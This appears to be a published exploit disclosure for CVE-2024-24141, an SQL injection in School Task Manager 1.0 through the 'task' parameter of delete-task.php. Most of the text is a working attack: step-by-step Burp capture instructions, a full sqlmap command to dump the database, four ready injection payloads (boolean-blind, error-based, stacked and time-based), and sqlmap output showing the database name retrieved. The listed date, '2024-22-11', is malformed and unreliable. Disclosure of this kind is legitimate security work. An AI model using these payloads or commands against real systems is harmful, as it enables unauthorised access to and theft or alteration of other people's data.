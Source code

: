 # CVE-2024-24141: School-Task-Manager-System-SQL_Injection-1
+ **Exploit Title:** CVE-2024-24141:  School-Task-Manager-System-SQL_Injection-1
+ **Date:** 2024-22-11
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/16877/school-task-manager-using-php-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=16877&title=School+Task+Manager+Using+PHP+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-24141

## References: 
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-24141
+ https://www.cve.org/CVERecord?id=CVE-2024-24141
+ https://nvd.nist.gov/vuln/detail/CVE-2024-24141

## Description:
School Task Manager App 1.0 allows SQL Injection via the 'task' parameter in "/school-task-manager/endpoint/delete-task.php?task=5". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "localhost/school-task-manager/index.php"
+ Select any task and press the delete-task button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /school-task-manager/endpoint/delete-task.php?task=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'task' parameter to dump the database.
```
sqlmap -r r.txt -p task --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: task (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: task=5' RLIKE (SELECT (CASE WHEN (2662=2662) THEN 5 ELSE 0x28 END))-- miQh

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: task=5' AND EXTRACTVALUE(6730,CONCAT(0x5c,0x7171627871,(SELECT (ELT(6730=6730,1))),0x717a716271))-- RTrX

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: task=5';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: task=5' AND (SELECT 3686 FROM (SELECT(SLEEP(5)))oiSk)-- tcLg
---
[18:07:59] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:07:59] [INFO] fetching current database
[18:07:59] [INFO] retrieved: 'school_task_manager_db'
current database: 'school_task_manager_db'
```
+ current database: `school_task_manager_db`
![Ekran görüntüsü 2024-01-22 030940](https://github.com/BurakSevben/School-Task-Manager-System-SQLi-1/assets/117217689/08ca7497-68b4-429c-8503-d276fec18f48)


